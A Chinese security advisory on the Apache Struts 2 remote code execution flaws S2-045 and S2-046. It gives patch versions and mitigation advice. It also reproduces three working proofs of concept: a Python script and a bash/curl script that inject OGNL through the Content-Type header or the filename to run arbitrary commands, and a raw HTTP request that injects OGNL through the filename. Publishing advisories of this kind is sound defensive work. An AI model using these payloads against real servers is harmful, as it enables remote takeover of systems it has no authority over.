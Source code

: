 > 原文链接: https://www.anquanke.com//post/id/85744 


# 【重大漏洞预警】Struts 2 远程代码执行漏洞(s2-045s2-046) (含PoC)


                                阅读量   
                                **499950**
                            
                        |
                        
                                                                                    



**[![](https://p3.ssl.qhimg.com/t01bc3ed8c359dc1cab.png)](https://p3.ssl.qhimg.com/t01bc3ed8c359dc1cab.png)**



**<br>**

**背景介绍**



近日，安全研究人员发现著名J2EE框架——Struts2存在远程代码执行的漏洞，Struts2官方已经确认该漏洞（S2-045,S2-046），并定级为高危漏洞。

Struts2 的使用范围及其广泛，国内外均有大量厂商使用该框架。

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。（来源：百度百科）

**漏洞描述**

使用Jakarta插件处理文件上传操作时可能导致远程代码执行漏洞。

[![](https://p2.ssl.qhimg.com/t011982617da999ca38.png)](https://p2.ssl.qhimg.com/t011982617da999ca38.png)

**S2-045漏洞影响**

攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程代码执行。

<br>



**<strong style="font-size: 18px;text-indent: 32px">S2-045**PoC_1（来源于网络：[http://www.cnblogs.com/milantgh/p/6512739.html](http://www.cnblogs.com/milantgh/p/6512739.html)  ）</strong>

****



```
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    register_openers()
    datagen, header = multipart_encode(`{`"image1": open("tmp.txt", "rb")`}`)
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%`{`(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd`}`)).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())`}`"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```







**S2-046漏洞影响（更新）**



**触发条件**

上传文件的大小（由Content-Length头指定）大于Struts2默认允许的最大大小（2M）。

header中的Content-Disposition中包含空字节。

文件名内容构造恶意的OGNL内容。

<br>

**<strong>S2-046**PoC（来源于网络：[](http://www.cnblogs.com/milantgh/p/6512739.html)[https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#) ）</strong>

需要在strust.xml中加入 &lt;constant name="struts.multipart.parser" value="jakarta-stream" /&gt;才能触发。

```
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close

------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%`{`#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')`}`"
Content-Type: text/plain
Kaboom 

------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```

**<strong><br>**</strong>

**<strong>S2-046**PoC_2（来源于网络：[https://gist.githubusercontent.com/frohoff/a3e24764561c0c18b6270805140e7600 ](https://gist.githubusercontent.com/frohoff/a3e24764561c0c18b6270805140e7600)）</strong>

```
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%`{`(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?`{`'cmd.exe','/c',#cmd`}`:`{`'/bin/bash','-c',#cmd`}`)).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())`}`")

printf -- "--$boundaryrnContent-Disposition: form-data; name="foo"; filename="%sb"rnContent-Type: text/plainrnrnxrn--$boundary--rnrn" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```

**验证截图**

[![](https://p4.ssl.qhimg.com/t01203e6ee0e6688c16.png)](https://p4.ssl.qhimg.com/t01203e6ee0e6688c16.png)

**修复建议**

1. 严格过滤 **Content-Type** 、**filename**里的内容，严禁ognl表达式相关字段。

2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（**强烈推荐**）

<br>

**官网公告**

[https://cwiki.apache.org/confluence/display/WW/S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

[https://cwiki.apache.org/confluence/display/WW/S2-04](https://cwiki.apache.org/confluence/display/WW/S2-045)6

****

**补丁地址**

Struts 2.3.32：[https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32) 

Struts 2.5.10.1：[https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1) 

<br>



**参考**

[http://struts.apache.org/docs/s2-045.html](http://struts.apache.org/docs/s2-045.html) 

[http://struts.apache.org/docs/s2-046.html](http://struts.apache.org/docs/s2-046.html)

[https://gist.githubusercontent.com/frohoff/a3e24764561c0c18b6270805140e7600](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#)

[https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#)
